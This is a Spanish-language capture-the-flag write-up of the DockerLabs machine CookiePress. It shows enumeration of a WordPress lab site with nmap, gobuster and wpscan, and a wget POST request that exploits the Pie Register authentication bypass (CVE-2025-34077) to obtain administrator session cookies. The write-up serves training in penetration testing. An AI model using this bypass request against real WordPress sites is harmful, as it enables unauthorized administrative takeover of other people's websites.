# # Write-up: CookiePress — DockerLabs

> **Información del Laboratorio**
> - **Plataforma:** DockerLabs / BunkerLabs
> - **Nombre de la Máquina:** CookiePress 
> - **Dificultad:** Media 
> - **Sistema Operativo:** Linux (Debian)
> - **Servicio expuesto:** HTTP (puerto 80)
> - **Tecnologías identificadas:** WordPress, Pie Register
> - **Vulnerabilidad principal:** CVE-2025-34077
> - **Técnicas clave:** Reconocimiento de servicios, enumeración web, identificación de plugins, investigación de vulnerabilidades, bypass de autenticación y suplantación de sesión administrativa.



---
## Resumen Ejecutivo

En la máquina CookiePress de DockerLabs se identificó una instalación de WordPress con el plugin Pie Register vulnerable a la CVE-2025-34077. Mediante la explotación de un bypass de autenticación, se obtuvieron cookies de sesión que permitieron acceder al panel de administración como usuario administrador.

**Resultado**: acceso administrativo a WordPress sin credenciales legítimas.

---
## 1. Reconocimiento y Enumeración

### Escaneo de servicios (Nmap)

Realice un escaneo completo de puertos para identificar los servicios expuestos en la máquina objetivo.

```
sudo nmap -sS -sV -sC -Pn -n -vvv -T5 -p- 172.17.0.2
```

El escaneo permitió identificar el **puerto 80/TCP abierto**, correspondiente al servicio HTTP. Al acceder al servicio web, se identificó una instalación de WordPress.



### Fuzzing web (Gobuster)

A continuación, se utilice Gobuster para buscar directorios y archivos que pudieran revelar información relevante sobre la aplicación web.

```
 gobuster dir \
  -u http://172.17.0.2/ \
  -w /usr/share/wordlists/dirb/common.txt \
  -k \
  -x html,js,css,json,txt,bak,old,zip
```

El escaneo no proporcionó resultados relevantes para continuar la enumeración. Por este motivo, se optó por analizar los componentes de WordPress mediante una herramienta especializada.



### Enumeración de WordPress (WPScan)

Se utilice WPScan para identificar los plugins instalados en WordPress y detectar posibles componentes vulnerables.

```
wpscan --url http://172.17.0.2/ -e p
```

Durante la enumeración se identificó el plugin **Pie Register**, cuya ruta era accesible desde:
```text
http://172.17.0.2/wp-content/plugins/pie-register
```

Este descubrimiento permitió centrar la investigación en el plugin y comprobar qué versión estaba instalada.



---

## 2.  Análisis de Vulnerabilidades

### Detección del plugin en WordPress

Tras identificar Pie Register mediante WPScan, accedí al archivo `readme.txt` del plugin para consultar su información y determinar la versión instalada.

```text
http://172.17.0.2/wp-content/plugins/pie-register/readme.txt
```

La información obtenida permitió identificar la versión **3.7.1.0**. Con este dato se inició una búsqueda de vulnerabilidades conocidas que afectaran a dicha versión.



### Investigación de la vulnerabilidad (CVE-2025-34077)

Mediante una búsqueda de vulnerabilidades asociadas a Pie Register, se identificó la **CVE-2025-34077**, relacionada con un bypass de autenticación que puede permitir la suplantación de usuarios sin disponer de sus credenciales.

La versión identificada durante la enumeración se encuentra dentro del rango de versiones afectadas. Este hallazgo permitió plantear una vía de explotación orientada a obtener acceso administrativo a WordPress.





---

## 3. Explotación y Acceso Inicial

### Envío de la petición HTTP

Tras identificar la vulnerabilidad CVE-2025-34077, utilice una petición HTTP POST para comprobar el bypass de autenticación en el plugin Pie Register.

```bash
wget -q -S -O - http://172.17.0.2 \
  --post-data 'user_id_social_site=1&social_site=true&piereg_login_after_registration=true&_wp_http_referer=/login/&log=null&pwd=null' \
  > /dev/null
```

La petición enviaba parámetros específicos al servidor con el objetivo de activar el comportamiento vulnerable del plugin y obtener una sesión autenticada sin introducir las credenciales legítimas del usuario.

### Obtención de cookies de sesión

Como resultado de la petición, el servidor devolvió cabeceras HTTP `Set-Cookie`, que contenían las cookies de sesión asociadas al usuario suplantado.

Estas cookies se utilizaron para establecer una sesión autenticada en el navegador.



### Suplantación de la sesión administrativa

Se accedió a las herramientas de desarrollador del navegador y dentro del apartado **Storage** se incorporaron las cookies obtenidas durante la explotación.

Al actualizar la página WordPress reconoció la sesión como autenticada y permitió acceder al panel de administración sin introducir las credenciales del administrador.




### Verificación del acceso administrativo

Finalmente, se comprobé que el acceso permitía entrar en el escritorio de WordPress y consultar la sección de usuarios.

La interfaz mostraba que la sesión disponía de permisos de administrador, confirmando el impacto de la vulnerabilidad sobre la autenticación y el control de acceso de la aplicación.





¡Acceso de admin completado con éxito! 🎉

---
## 4. Conclusiones y Lecciones Aprendidas

Este laboratorio ha permitido practicar las fases de reconocimiento, enumeración y explotación de una aplicación WordPress vulnerable.

La identificación del plugin Pie Register y la investigación de la CVE-2025-34077 permitieron encontrar una vía para eludir la autenticación y obtener acceso administrativo sin credenciales legítimas.

Como aprendizaje principal, destaca la importancia de mantener actualizados los plugins de WordPress y verificar la seguridad de los componentes instalados. También se ha practicado el uso de herramientas como Nmap, Gobuster y WPScan, así como el análisis de peticiones HTTP y cookies de sesión.

La máquina se resolvió sin consultar ningún _write-up_, siguiendo un proceso de investigación propio y documentando las evidencias obtenidas durante la explotación.


